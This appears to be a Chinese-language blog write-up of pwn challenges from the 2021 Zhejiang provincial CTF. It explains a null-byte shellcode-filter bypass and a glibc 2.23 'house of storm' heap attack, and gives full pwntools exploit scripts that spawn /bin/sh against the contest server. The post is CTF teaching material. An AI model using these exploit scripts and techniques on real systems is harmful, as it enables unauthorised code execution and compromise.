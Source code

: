 ```yaml
---
layout:     post
title:      浙江2021省赛
subtitle:   pwn wp
date:       2021-10-24
author:     X1ng
header-img: 省赛.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


开始比赛前发现IDA打不开了。。。。难度不大，但是学到了新知识，，感谢 **@Alter**赛后科普house of strom

太菜了太菜了

### sxmz

逻辑很简单，输入shellcode，通过特定检测后直接执行shellcode，输入的字节为`\n`会填充对应位置内存为`\x00`，检测字符的时候遇到`\x00`结束检查，让shellocde的首字节为`\x00`绕过检查，首字节为`\x00`的汇编语句大多是形如`add	BYTE PTR [esi], al`这样的，查看寄存器确保对应寄存器所指向的地址可写，之后写shellcode调用`execve("/bin/sh",0,0)`即可

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='i386'

local=0
binary_name='sx'
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51501)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

ru('少侠，请问尊姓大名：')

text='''
add	BYTE PTR [esi], al;\n


mov esi,eax;


xor edx,edx;


xor ecx,ecx;


mov eax,11;


mov ebx,esi;


add ebx,0x14;


int 0x80;

'''
opcode=asm(text)
print(opcode)
sl(opcode+b'/bin/sh')

ia()
```



### LargeRoom2

glibc-2.23下的house of strom：核心思想在于将个目标地址作为fake_chunk，通过unsorted_bin attack将fake_chunk放到unsorted_bin列表中，利用large_bin attack将fake_chunk的size位字节改为`\x55`（堆地址的最高位一般为`\x55`或`\x56`），申请`0x50`大小的chunk就能申请到目标地址，实现任意地址写

这题在edit的时候存在off-by-null漏洞，并且有个函数直接申请0x50大小的chunk，构造两个大chunk分别放在large_bin和unsorted_bin，unsorted_bin中的chunk要比large_bin中的略微大一点，但是要保证两者在large_bin中存放在同一index下，然后覆盖unsorted_bin的bk和large_bin的bk、bk_nextsize，再申请0x50即可任意地址写

exp：

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='LargeRoom2'
libc_name='libc.so.6'

libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51200)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Your choice :',str(num))

def add(sz):
	cho(1)
	sla('Size:',str(sz))

def edit(idx, val):
	cho(4)
	sla('The id of room:',str(idx))
	sla('New Content:',val)

def show(idx):
	cho(2)
	sla('The id of room:',str(idx))

def delete(idx):
	cho(3)
	sla('The id of room:',str(idx))

def lea(val):
	cho(5)
	sla('Your name:',val)


add(0x3f8)
add(0x418)#1 overlap

add(0x3f8)
add(0x3f0)
delete(0)
edit(1,b'a'*0x410+p64(0x420+0x400))
delete(2)
add(0x3f8)
add(0x900)

show(1)
ru('\n')
libcbase=leak_address()-0x3c5068
print('[+]libcbase: '+hex(libcbase))
system=libc.sym['system']+libcbase
print('[+]system: '+hex(system))
free_hook=libc.sym['__free_hook']+libcbase
print('[+]free_hook: '+hex(free_hook))

add(0x810)

add(0x508)#5

add(0x408)#6 overlap

add(0x3f8)
add(0x3f0)
delete(5)
edit(6,b'b'*0x400+p64(0x510+0x410))

delete(7)
add(0x508)
add(0xa000)
delete(4)

edit(5,'/bin/sh')
fake_chunk=free_hook-0x10
edit(1,p64(0)+p64(fake_chunk))
edit(6,p64(0)+p64(fake_chunk+8)+p64(0)+p64(fake_chunk-0x18-5))
lea(p64(system))
delete(5)



ia()
```







